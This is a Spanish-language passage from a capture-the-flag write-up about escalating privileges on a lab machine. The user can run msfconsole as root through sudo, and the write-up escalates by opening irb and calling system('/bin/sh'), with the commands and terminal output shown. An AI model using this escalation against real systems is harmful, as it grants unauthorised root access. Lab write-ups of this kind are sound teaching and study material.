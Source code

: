 ## Privilege Escalation

### Abusing sudoers privilege (msfconsole)

Revisando los permisos de `sudoers` que dispone el usuario, nos encontramos que puede ejecutar el binario de `msfconsole` como usuario `root` sin proporcionar credenciales de este mismo.

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

A través de la herramienta de [`searchbins`](https://github.com/r1vs3c/searchbins) comprobaremos la manera de explotar este binario con permisos de `sudo` sobre él. Esta herramienta tiene como funcionalidad realizar la consulta a `GTFOBins` pero localmente.

```bash
❯ searchbins -b msfconsole -f sudo

[+] Binary: msfconsole

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/msfconsole/#sudo]

	| sudo msfconsole
	| msf6 > irb
	| >> system("/bin/sh")
```

Realizaremos los pasos de la explotación del binario para poder ganar acceso como usuario `root`. Comprobamos que finalmente logramos obtener una `shell` como usuario`root` y podemos visualizar la flag **root.txt**.

````bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole 
                                                  

                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
````